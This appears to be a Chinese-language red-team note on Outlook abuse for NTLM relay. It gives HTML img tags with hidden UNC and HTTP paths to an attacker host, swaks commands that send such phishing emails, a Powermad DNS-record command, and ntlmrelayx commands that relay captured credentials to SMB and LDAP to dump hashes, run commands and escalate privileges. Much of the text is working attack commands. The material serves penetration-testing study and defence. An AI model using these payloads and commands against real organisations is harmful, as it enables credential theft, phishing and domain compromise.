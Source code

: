 #### outlook abuse

在使用 outlook 的情况下还可以通过 homepage 或者下发规则达到命令执行的效果。

在 outlook 邮件中插入 HTML,触发 UNC

在邮件中插入如下标签：
```
<img src="\\192.168.60.172\blank">
<img src="http://relayubuntu/blank">
```

在用户通过 Outlook 打开邮件时：

1. UNC 默认会通过 smb 协议发起 NTLM 认证，但是外网钓鱼的话，目标单位的 smb 流量可能无法出网。
2. HTTP 默认不会发起 NTLM 认证，即使服务端对其进行 NTLM 挑战，除非服务端 url 位于服务器的信任网站或内联网列表。Windows 会认为 http://Netbios 形式的 url 处于内联网，域内用户默认有增加 DNS 记录的权限，因此攻击者需要先获取域用户权限并创建 DNS 记录来将恶意服务器"放入"内联网列表。显然，这种方法无法用于外网钓鱼。

```bash
# 发送带 UNC 路径的邮件
swaks --server 192.168.60.116 --ehlo island.com --to zhangsan@island.com --from test@island.com --header "Subject:relay_swaks_test" --body '<img src="\\192.168.60.172\blank" style="display:none">this is a msg' --h-X-Mailer: 'Foxmail 7.2.20.273[cn]' --add-header "Content-Type: text/html"

# 发送带 HTTP 路径的邮件
swaks --server 192.168.60.116 --ehlo island.com --to zhangsan@island.com --from test@island.com --header "Subject:relay_swaks_test" --body '<img src="http://relayubuntu/blank" style="display:none">this is a msg' --h-X-Mailer: 'Foxmail 7.2.20.273[cn]' --add-header "Content-Type: text/html"
# Powermad Invoke-DNSUpdate.ps1
# 创建 DNS 记录
Invoke-DNSUpdate -DNSType A -DNSName relayubuntu -DNSData 192.168.60.172
```

这种 Relay，可以在外网发起 relay，而不需要在内网。

- [Arno0x/NtlmRelayToEWS](https://github.com/Arno0x/NtlmRelayToEWS)
- [quickbreach/ExchangeRelayX](https://github.com/quickbreach/ExchangeRelayX)

**smb/http relay to smb**

中继至 smb 时，如果：

1. 中继的账户是普通域账户，则无法完成中继。受 Remote UAC 限制，除了以下账户外，其他账户无法网络登录 smb
2. 中继的账户是域管账户或本地管理员账户，可以完成中继
```bash
# 不加参数，默认 dump 目标 hash
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support -socks
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support -c "whoami"
```

**http relay to ldap**

中继至 ldap 时，如果：

1.中继的账户是普通域账户，会 dump 域内 ldap 信息
2.中继的账户是高权限域账户，会自动尝试 ACL 提权

需要注意的是，smb relay to ldap 默认情况下会开启签名，因此只能 http relay to ldap。
```
python3 ntlmrelayx.py -t ldap://192.168.60.112 -smb2support
```
